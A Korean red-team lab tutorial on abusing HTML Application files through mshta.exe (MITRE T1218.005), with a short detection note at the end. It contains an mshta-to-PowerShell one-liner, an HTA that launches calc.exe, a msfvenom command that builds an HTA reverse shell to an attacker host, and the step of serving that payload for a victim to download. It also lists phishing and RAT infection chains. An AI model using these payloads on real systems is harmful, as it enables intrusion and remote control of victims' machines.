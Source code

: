 ```yaml
---
description: T1218.005
---
```


# HTA

## HTA란?

HTA (HTML Application)는 마이크로소프트가 개발한 웹 애플리케이션 프로그래밍 기술이다.HTA 확장자 파일은 Mshta.exe 윈도우 바이너리로 실행되며 네트워크 프록시 인식 방식으로 HTML에 포함된 Windows 스크립트 호스트 코드(VBScript 및 JScript)를 실행할 수 있기 때문에 MS로 서명된 유틸리티를 통해 임의 스크립트 코드 실행을 할 수 있어 공격하기 매력적인(?!?) 수단이다.

아래 트윗은 한 레드팀원이 몇일전에 올린 HTA를 관한 초기 침투가 아직도 많이 쓰이고 있다는것을 알수있다.

![](<../../.gitbook/assets/Pasted image 20230501172222.png>)

### 보안적인 측면

일단 HTA는 Java applet 이나 액티브X 컨트롤과 같은 기존의 웹 애플리케이션 기술에 비해 보안성과 사용자 경험 측면에서 우수한 성능을 제공할 수 있지만 또한 양날의 검으로 기존 웹 앱과는 다르게 로컬 파일 시스템이나 레지스트리 같은 거에 직접 액세스할 수도 있기 때문에더 많은 권한을 가질 수 있기 때문에 악의적인 목적으로도 충분히 쓰일 수 있다.

아래 실습 예제는 굉장히 간단히 예제임으로 "왜 제가 만든 악성 hta 파일이 다운받은 즉시 사라지나요?"와 같은 질문은 하지 말길 바란다. 기본적으로 윈도우 디펜더를 다 끄고 진행하고 있기 때문에 아래 실습은 방어 우회를 거의 일체 생각하지 않았다라는 점을 이해해주길 바란다.

Mitre Attack에서도 Mshta 실행을 하나의 테크닉으로 설명하고 있으며 굉장히 많은 APT그룹도 사용하고 있는 것을 알 수 있다.

{% embed url="https://attack.mitre.org/techniques/T1218/005/" %}

일단 시작하기 앞서, 아래와 같이 mshta -> VBScript-> powershell.exe를 통해, "Hello GROOT!" 아웃풋되는지 확인해보자.

```powershell
mshta.exe "about:<hta:application><script language="VBScript">Close(Execute("CreateObject(""Wscript.Shell"").Run%20""powershell.exe%20-nop%20-Command%20Write-Host%20Hello,%20GROOT!;Start-Sleep%20-Seconds%205"""))</script>'"
```

![](<../../.gitbook/assets/Pasted image 20230501210226.png>)

### 실습

기본적으로 HTA를 사용한 악성 코드 실행 시나리오는 여러가지가 있을 수 있다. 수 많은 조합들이 있지만, 자주 사용 되는 조합은 다음과 같다:

* LNK -> CMD -> Powershell -> RAT
* ZIP -> Password protected PDF + "password.lnk" -> RAT
* DOCx -> LNK -> remote HTA -> Powershell -> RAT
* 피싱 이메일 -> LOTS를 통한 mediafire/dropbx/github 다운 -> ZIP 파일 -> HTA -> RAT

### 기본 HTA 스크립트 예제

아래 HTA 스크립트는 Windows에서 calc.exe를 실행한다.

**grootcalc.hta**

```
<html>
<body>
<script>
        var c= 'calc.exe'
        new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```

HTML Application을 통해 계산기가 실행되는 것을 알 수 있다.&#x20;

### Metasploit 예제

가장 간단하게 msfvenom을 통해 HTA Payload를 만들어 보자. shell\_reverse\_tcp HTA 페이로드를 만들어 준다.

* LHOST: 칼리 로컬 호스트 로컬 IP
* LPORT: Listener 포트

```
┌──(kali㉿kali)-[~/redteam/HTA/unicorn]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.137.131 LPORT=443 -f hta-psh -o groot.hta
```

공격자는 타겟이 악성 HTA를 다운받을 수 있게 Python HTTP Server를 포트 8080에 만들어 준다.

<figure><img src="../../.gitbook/assets/Pasted image 20230501175738.png" alt=""><figcaption></figcaption></figure>

브라우저에서 http://192.168.137\[.]131:8080/groot.hta 를 방문하여 파일을 다운받고 실행하면 타겟박스 (윈도우) 쉘을 얻을 수 있다.

![](<../../.gitbook/assets/Pasted image 20230501175551.png>)

### 대응 방안

* CMD에서 실행되는 난독화된 스크립트를 실행하는 mshta.exe는 이미 수상하기 때문에 아마 EDR 차원에서 이미 감지를 할수 있다. 또한 mshta.exe 실행 전후 실행도는 Process들을 살펴봐 .hta 파일의 출처와 목적을 확인하는 것이 중요하다.

### 레퍼런스

{% embed url="https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/initial-access/t1566-phishing/phishing-spearphishing-link/links-hta-files" %}

{% embed url="https://hatching.io/blog/lnk-hta-polyglot/" %}
